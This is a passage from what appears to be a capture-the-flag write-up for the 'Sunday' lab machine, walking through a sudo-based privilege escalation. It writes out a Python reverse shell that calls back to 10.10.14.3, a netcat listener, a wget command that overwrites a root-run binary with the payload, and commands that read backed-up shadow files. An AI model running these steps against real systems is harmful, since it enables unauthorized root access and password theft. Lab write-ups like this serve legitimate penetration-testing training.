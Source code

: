 we will find user sunny could run `/root/troll` as root privilege.

```bash
sudo /root/troll
```

```txt
sunny@sunday:/backup$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

seems like this file run the `id` command. So if we could overwrite this file, we could use it to privilege escalate to root permission.

So let’s make troll useful. First, on kali, create a shell.sh which is basically a nicely formatted [reverse python shell from pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```bash
vim shell.sh
# python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
nc -vlp 1234
```
Serve it with SimpleHTTPServer, and request `shell.py` with wget, using the `-O` option, which will allow us to specify a file to write the wget output to, and it will overwrite that file if it already exists:

```bash
sudo wget http://10.10.14.3/shell.sh -O /root/troll
```

But we can't run sudo wget command with sunny account. We need to find other credential.

## backup file

```bash
cd /
ls
```

```txt
sunny@sunday:/$ ls
backup    boot      dev       etc       home      lib       mnt       nfs4      platform  root      sbin      tmp       var
bin       cdrom     devices   export    kernel    media     net       opt       proc      rpool     system    usr       zvboot
```

```bash
cd backup
ls
cat agent22.backup
cat shadow.backup
```

